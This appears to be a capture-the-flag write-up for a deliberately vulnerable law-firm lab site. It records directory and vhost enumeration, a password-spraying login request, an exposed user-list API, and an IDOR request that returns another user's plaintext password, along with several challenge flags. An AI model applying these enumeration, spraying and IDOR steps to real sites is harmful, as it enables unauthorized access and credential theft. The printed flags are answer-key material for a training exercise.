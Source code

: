 # Scope

```bash
mazer.ctfio.com
```

# Enumeration

## Dirsearch

```bash
Target: https://mazer.ctfio.com/

[05:56:24] Starting: 
[05:56:28] 301 -  178B  - /js  ->  https://mazer.ctfio.com/js/              
[05:57:13] 301 -  178B  - /css  ->  https://mazer.ctfio.com/css/              
[05:57:25] 403 -  564B  - /images/                                          
[05:57:25] 301 -  178B  - /images  ->  https://mazer.ctfio.com/images/      
[05:57:28] 403 -  564B  - /js/                                              
[05:57:31] 302 -    1KB - /login  ->  /denied                               
[05:57:31] 302 -    1KB - /login/  ->  /denied 
```

## Vhosts

```bash
data                    [Status: 200, Size: 109, Words: 3, Lines: 1, Duration: 177ms]
:: Progress: [1907/1907] :: Job [1/1] :: 146 req/sec :: Duration: [0:00:09] :: Errors: 0 ::
```

![image.png](attachment:65531e1a-4fa8-42c0-b056-d97d8e06f11d:image.png)

## Website functionality

![image.png](attachment:1afb9ffa-ae39-4552-86aa-64aa2b4f35fc:image.png)

- X-Forwarded-For
- SSRF

```bash
               <p>Access to this portal can now be found here <a href=/lawyers-only">/lawyers-only</a></p>
                <p>[^FLAG^FB52470E40F47559EBA87252B2D4CF67^FLAG^]</p>
```

## Investigating `lawyers-only`  endpoint

- login form

```bash
POST /lawyers-only-login HTTP/1.1
Host: mazer.ctfio.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: https://mazer.ctfio.com
Referer: https://mazer.ctfio.com/lawyers-only-login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

email=admin&password=admin
```

- ~~SQL injection~~
- ~~NoSQL injection~~
- Password Spraying
- Username Enumeration

```bash
email=jaskaran.lowe@vulnlawyers.ctf&password=summer
```

## VulnLaywers API (data vhost)

## Dirsearch

```bash
Target: https://data.zeus.ctfio.com/

[06:48:12] Starting: 
[06:48:54] 200 -  396B  - /users
```

- `Machine time out, use next machine`
- We were able to dump the users

# Authenticated access to the portal

```bash
GET /lawyers-only-profile-details/2 HTTP/1.1
Host: zeus.ctfio.com
Cookie: token=7BCC07AAE3CCD9CD66223DF6D6932582
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Referer: https://zeus.ctfio.com/lawyers-only-profile
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: keep-alive
```

- This endpoint is vulnerable to IDOR on the ID parameter that exposes victim’s full passwords

```bash
HTTP/1.1 200 OK
Server: nginx/1.22.0 (Ubuntu)
Date: Thu, 15 May 2025 11:19:45 GMT
Content-Type: application/json
Connection: keep-alive
Content-Length: 155

{"id":2,"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.ctf","password":"q2V944&#2a1^3p","flag":"[^FLAG^938F5DC109A1E9B4FF3E3E92D29A56B3^FLAG^]"}
```

```bash

There are no more cases

[^FLAG^B38BAE0B8B804FCB85C730F10B3B5CB5^FLAG^]
```
